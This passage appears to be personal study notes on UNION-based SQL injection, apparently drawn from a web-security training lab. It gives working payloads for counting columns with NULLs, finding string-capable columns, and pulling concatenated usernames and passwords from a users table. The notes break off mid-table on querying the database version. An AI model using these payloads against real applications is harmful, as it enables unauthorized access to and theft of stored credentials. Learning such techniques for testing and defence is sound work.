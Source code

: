 ### Method 2: `'UNION SELECT NULL--`
- inject a series of `UNION SELECT NULL--` clauses into the query, incrementing the number of `NULL` until the database returns an error 
	```
	' UNION SELECT NULL-- 
	' UNION SELECT NULL,NULL-- 
	' UNION SELECT NULL,NULL,NULL--
	etc.
	```
- If the number of `NULLS` does not match the number of columns, the following error may occur: 
	`All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.`
==Note** : This method is more effective than using `'ORDER BY` because it has a higher chance of giving a different response when the column count is correct==

## Finding Columns With Useful Data Type 
- important data is usually in string form  
- after determining the number of columns, we can replace each  `NULL` value in the injected query to check if it can hold a string literal, as seen below: 
	```
	' UNION SELECT 'a',NULL,NULL,NULL-- 
	' UNION SELECT NULL,'a',NULL,NULL-- 
	' UNION SELECT NULL,NULL,'a',NULL-- 
	' UNION SELECT NULL,NULL,NULL,'a'--
	```
- if the column cannot hold a string literal, the following error will be observed, indicating the data type of the column: 
	`Conversion failed when converting the varchar value 'a' to data type int.`
- if no error, and the application response will have some additional content including the injected string value then the relevant column, then the relevant column is suitable for retrieving string data
## Retrieving Multiple Values From A Single Column
- `' UNION SELECT username || '~' || password FROM users--`
- this will return:
	```
	administrator~s3cure
	wiener~peter
	carlos~montoya
	```
# Examining Database With SQLi 
- Find the type and version of  the database
- the tables and columns that the database contains 
## Querying Database Type & Version 
- Use `UNION` together with the respective `SELECT` statements:
	```
	Database type 	    Query
	